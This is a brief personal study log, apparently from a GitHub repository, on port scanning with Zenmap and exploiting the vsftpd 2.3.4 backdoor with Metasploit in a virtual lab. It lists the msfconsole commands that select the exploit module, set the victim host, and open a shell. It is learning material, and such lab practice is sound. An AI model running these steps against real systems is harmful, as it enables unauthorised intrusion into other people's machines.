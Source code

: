 # Finding open ports and exploiting them

Using Kali Linux and Metasploit (using virtual lab)

---
## 2025-08-14
**Steps:**  
- Open Zen map and scan for IP with quick scan.
- Find the IP of the virtual machine to exploit.
- Scan that IP for open ports with intense scan in Zen map.
- Select the vulnerability to exploit.
- Learn about that port and vulnerability from Rapid 7 on Google.

**Commands/Tools practiced:**  
```
`msfconsole`
 `search <open port>`
 example `search vsftpd 2.3.4`
 Interact with a module by name or index. For example **info 1, use 1 or use exploit/unix/ftp/vsftpd_234_backdoor**
 `use 1`
 `show options` ( to check requirements)
 (as per requirement)
 `set RHOSTS <IP of the victim pc>`
 `exploit`
 ls (for the list)
 shell (for proper format)
 
 
 
```

**What worked / didn't:**  
- 

**Next step for tomorrow:**  